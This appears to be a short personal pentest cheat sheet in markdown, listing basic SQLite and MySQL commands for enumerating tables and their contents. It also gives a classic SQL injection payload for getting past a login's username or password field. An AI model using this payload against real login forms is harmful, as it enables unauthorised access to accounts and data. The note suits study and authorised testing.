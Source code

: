 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Basic SQL Queries

Listing tables:

~~~sql
.tables
~~~

Showing Contents of Specific Tables:

~~~sql
PRAGMA table_info(TABLENAME);
~~~

Showing information from Specific Tables:

~~~sql
SELECT * from tablename;
~~~

SQL Injection

Simple SQLi query for use in Username or Password field

~~~sql
' or 1=1 -- -
~~~

~~~sql
SHOW DATABASES;

USE database;

SHOW TABLES;

DESCRIBE table;

SELECT field FROM table-content;
~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
